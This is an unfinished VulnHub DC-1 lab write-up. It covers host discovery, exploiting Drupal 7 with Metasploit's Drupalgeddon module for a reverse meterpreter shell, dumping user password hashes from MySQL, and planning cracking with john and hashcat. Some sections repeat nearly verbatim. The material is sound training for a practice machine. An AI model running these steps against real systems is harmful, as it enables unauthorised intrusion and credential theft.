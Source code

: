 # VulnHub – DC-1 (Linux, Easy) (WIP)

⚠️ Work in Progress – This writeup is being updated step by step.

## Table of Contents
- [General Info](#general-info)
- [Objectives](#objectives)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Initial Shell](#initial-shell)
- [Privilege Escalation](#privilege-escalation)
- [Post-Exploitation Proof](#post-exploitation-proof)
- [Cleanup](#cleanup)
- [Key Takeaways](#key-takeaways)

## General Info
- **Machine name:** DC-1  
- **Platform:** VulnHub  
- **Author:** DCAU  
- **Release year:** 2015  
- **Difficulty:** Easy  
- **Type:** Boot2Root (goal: root access)  

## Objectives
- Gain initial foothold through the web application  
- Escalate privileges to root  
- Practice CMS exploitation (Drupal) and privilege escalation techniques  

## Enumeration
The target machine was identified in the NAT network.

**Network discovery**  
```bash
sudo netdiscover -r 192.168.25.0/24
```
Discovered host: 192.168.25.148

**Nmap scan**
```bash
sudo nmap -sC -sV 192.168.25.148
```
Open ports:
```text
22/tcp – OpenSSH 6.0p1 Debian 4+deb7u7
80/tcp – Apache 2.2.22 (Debian), running Drupal 7
111/tcp – rpcbind 2-4
```

Initial observation:
The Drupal CMS on port 80 appears to be the main attack surface. The robots.txt file reveals multiple standard Drupal directories and files (e.g., /CHANGELOG.txt, /install.php), which may expose the exact version.

![Nmap scan](./images/01_nmap.png)

_The scan reveals SSH (22), HTTP (Drupal, port 80), and RPCBind (111) as the main exposed services._

## Exploitation

`CHANGELOG.txt` was not accessible (404), so version was unknown beyond **Drupal 7**.  
Tried **drupal_drupalgeddon2** (`check` inconclusive), then fell back to the older **Drupalgeddon (2014)** module.

**Metasploit**
```bash
msfconsole
search drupal
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.25.148
set TARGETURI /
set LHOST 192.168.25.128
set TARGET 0
run
# if no session:
# set TARGET 1
# run
```
Result: a meterpreter session opened successfully.
Evidence: see Initial Foothold (images/02_foothold_shell.png).

(Recap for clarity — keeping the exact commands and outcome in one place.)
`CHANGELOG.txt` was not accessible (404), so the exact version of Drupal was unknown.  
We first tried **drupalgeddon2** (`check` was inconclusive), then fell back to the older **Drupalgeddon (2014)** module, which worked.

**Metasploit exploit:**
```bash
msfconsole
search drupal
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.25.148
set TARGETURI /
set LHOST 192.168.25.128
set TARGET 0
run
```
Notes:
- Module: `exploit/multi/http/drupal_drupageddon` (Rank: excellent)
- `TARGETURI` must be “/” (Drupal in web root)
- `LHOST` set to attacker IP (`192.168.25.128`); `RHOSTS` `192.168.25.148`

Result: a Meterpreter session was successfully opened.

## Initial Shell

Validated context and dropped to a shell from meterpreter.

```text
meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : DC-1
OS          : Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686
Meterpreter : php/linux
meterpreter > shell
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/var/www
```

Low-priv shell as `www-data` obtained via Drupalgeddon (2014).

Validated the session and dropped into a shell.

```text
meterpreter > getuid
Server username: www-data

meterpreter > sysinfo
Computer    : DC-1
OS          : Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686
Meterpreter : php/linux

meterpreter > shell
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/var/www
```

Low-privileged shell as **www-data** obtained via Drupalgeddon (2014).

![Foothold (meterpreter → shell)](./images/02_foothold_shell.png)
*Low-priv shell as `www-data` obtained via Drupalgeddon (2014).*

### Database user dump (Drupal 7)

**Why:** After gaining a foothold as `www-data`, we used the DB creds from `sites/default/settings.php`. Because Meterpreter shells lack a TTY, we ran **non-interactive** MySQL commands to dump users and password hashes.

**Commands**
```bash
mysql -u dbuser -p'R0ck3t' -e 'SHOW DATABASES;'
mysql -u dbuser -p'R0ck3t' -D drupaldb -e 'SHOW TABLES;'
mysql -u dbuser -p'R0ck3t' -D drupaldb -e 'DESC users;'
mysql -u dbuser -p'R0ck3t' -D drupaldb -e "SELECT uid,name,mail,pass FROM users;"
```

**Result**
![Drupal users dump](./images/03_mysql_users.png)

**Findings**
- Database: `drupaldb`
- Accounts (Drupal 7 `$S$` / PHPass hashes):
  - `admin : $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR`
  - `Fred  : $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg`

**Next**
- Crack the hashes offline:
  - `john --format=drupal7 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt`
  - or `hashcat -m 7900 hashes.txt /usr/share/wordlists/rockyou.txt`
- If `Fred`’s password is recovered, try SSH: `ssh Fred@192.168.25.148`
